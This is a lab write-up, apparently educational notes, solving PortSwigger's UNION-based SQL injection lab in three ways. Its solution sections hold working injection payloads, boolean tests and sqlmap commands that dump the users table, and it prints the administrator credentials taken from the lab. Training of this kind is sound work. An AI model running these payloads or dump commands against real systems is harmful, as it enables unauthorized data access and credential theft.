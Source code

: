 
---

## **Lab: SQL Injection UNION Attack to Retrieve Data from Other Tables**

### **Lab URL**:

[https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

---

## **High-Level Summary of the Lab**

1. **Objective**: Perform a **_UNION-based SQL Injection attack_** on the product category filter to retrieve usernames and passwords from the `users` table, and log in as the administrator to solve the lab.
    
2. **What Makes This Vulnerable?**:
    
    - The application uses user-controlled input in the `category` parameter without proper sanitization, leading to a **_SQL Injection vulnerability_**.
    - This allows attackers to manipulate the query, injecting SQL commands to retrieve data from other tables in the database.
3. **Key Techniques**:
    
    - Using UNION-based SQL Injection to determine the query structure and extract sensitive data.
    - Automating payload testing using tools like **_Burp Intruder_** or **_SQLmap_**.
4. **Key Learning**:
    
    - UNION attacks can reveal sensitive data if input fields are improperly validated.
    - SQL Injection testing often involves manually verifying the attack first, then using tools for deeper exploration.

---

## **PortSwigger Solution**

1. Intercept and modify the request that sets the product category filter in **Burp Suite**.
2. Determine the **number of columns** in the query and identify which columns accept text data using the following payload:
    
    ```plaintext
    '+UNION+SELECT+'abc','def'--
    ```
    
3. Once verified, retrieve data from the `users` table using this payload:
    
    ```plaintext
    '+UNION+SELECT+username,+password+FROM+users--
    ```
    
4. Verify that the application's response contains the usernames and passwords.

---

## **Your Solution**

1. **Traffic Generation**:
    - Navigate to the web application and interact with the product categories to generate traffic in **Burp Suite**.
    - Locate the relevant GET request:
        
        ```plaintext
        GET /filter?category=Clothing%2c+shoes+and+accessories
        ```
        
2. **Payload Construction**:
    - Modify the `category` parameter with the following payload:
        
        ```plaintext
        1' UNION SELECT username, password FROM users --
        ```
        
    - The full request becomes:
        
        ```plaintext
        GET /filter?category=Clothing%2c+shoes+and+accessories1' UNION SELECT username, password FROM users -- HTTP/2
        ```
        
3. **Result**:
    - Received a **200 OK** response, and the application displayed the following usernames and passwords:
        
        ```html
        <tr><th>wiener</th><td>e0rhde6r01n2svvmpp42</td></tr>
        <tr><th>carlos</th><td>nd76dn00fy7xpm8m1ghe</td></tr>
        <tr><th>administrator</th><td>r08fng6gvgdcoxnsfsj5</td></tr>
        ```
        
4. **Completion**:
    - Used the administrator credentials (`administrator:r08fng6gvgdcoxnsfsj5`) to log in and complete the lab.

---

## **Instructor Solution**

1. **Traffic Generation**:
    
    - Navigate to the lab and generate traffic in **Burp Suite**.
    - Identify the GET request:
        
        ```plaintext
        GET /filter?category=Pets
        ```
        
    - Send the request to **Intruder** and set a positional marker on the `Pets` parameter.
2. **Payload Automation with Intruder**:
    
    - Load payloads from:
        
        ```plaintext
        /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
        ```
        
    - Ensure **URL encoding** is enabled in the Payload Encoding section to avoid breaking HTTP requests.
3. **Identifying SQL Injection**:
    
    - Filter responses by content length. A significantly longer response length (e.g., **27828**) indicates a successful payload.
    - Send the working payload to **Repeater** to simplify and manually verify the SQL Injection.
4. **SQL Injection Testing**:
    
    - Test true/false statements:
        - True:
            
            ```plaintext
            ' or 'a'='a
            ```
            
        - False:
            
            ```plaintext
            ' or 'a'='b
            ```
            
5. **Automating with SQLmap**:
    
    - Use SQLmap to automate the SQL Injection process:
        - **Step 1**: Test for vulnerabilities:
            
            ```bash
            sqlmap 'https://<lab-url>/filter?category=Pets' --dbs
            ```
            
        - **Step 2**: Enumerate tables:
            
            ```bash
            sqlmap 'https://<lab-url>/filter?category=Pets' -D public --tables --batch
            ```
            
        - **Step 3**: Dump data:
            
            ```bash
            sqlmap 'https://<lab-url>/filter?category=Pets' -D public -T users --dump --batch
            ```
            
    - Results:
        
        ```plaintext
        administrator:lzr7vlf5vf8johylrz93
        ```
        
6. **Completion**:
    
    - Use the administrator credentials (`administrator:lzr7vlf5vf8johylrz93`) to log in and complete the lab.

---

## **Why This Solution is an Example of SQL Injection**

- **What is SQL Injection?**
    
    - SQL Injection occurs when untrusted user input is directly embedded into SQL queries without proper sanitization or parameterization.
- **How is this Lab Vulnerable?**
    
    - The `category` parameter is used directly in the SQL query without validation, allowing malicious payloads to alter the query structure.
- **Key Characteristics in This Lab**:
    
    - **_Target_**: The `category` parameter in the GET request.
    - **_Exploitation_**: UNION-based SQL Injection to retrieve data from the `users` table.
    - **_Impact_**: Access to sensitive user data, including administrator credentials, enabling unauthorized access.

---

#SQLInjection #UNION #SQLmap #BurpSuite #WebSecurity #DatabaseExploitation